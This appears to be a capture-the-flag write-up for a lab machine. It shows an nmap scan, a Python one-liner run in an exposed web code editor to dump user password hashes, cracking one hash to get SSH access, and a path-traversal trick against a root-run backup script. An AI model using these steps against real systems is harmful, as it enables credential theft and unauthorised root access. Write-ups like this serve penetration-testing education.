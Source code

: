 # nmap

`╰─❯ sudo nmap -sV 10.10.11.62
Password:
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2025-05-20 15:14 EEST
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 43.45% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 51.50% done; ETC: 15:14 (0:00:02 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.17% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.03% done; ETC: 15:14 (0:00:03 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 15:14 (0:00:06 remaining)
Nmap scan report for 10.10.11.62
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.83 seconds`

from nmap we notice that theres http open in port 5000 and when you go to it you will find a online code editor for python

# user

after 30 mins of searching you can see that it might be a flask app with sqlalchemy running in it so a code like this will dump the hashes of the users

`print([(user.id, user.username, user.password) for user in User.query.all()])`

> [(1, ‘development’, ‘759b74ce43947f5f4c91aeddc3e5bad3’), (2, ‘martin’, ‘3de6f30c4a09c27fc71932bfc68474be’)]

using crackstation you can find the password of ssh of the user martin

# privilege escalation

theres an app-producion directory that requires root so that is our target.

using sudo -l will tell the things we can run in sudo mode as martin and we will notice that theres a backup bash code that edits task.json

```bash
martin@code:~/backups$ cat /usr/bin/backy.sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done
```

![image.png](attachment:fce74251-b6ae-4442-bfe2-ed1dfed57d4c:image.png)

so that means we can edit the directories to archive to any file we want so we will put user.txt and to go to root we will use the ../ method

/home/…./root

run the bash after editing the files
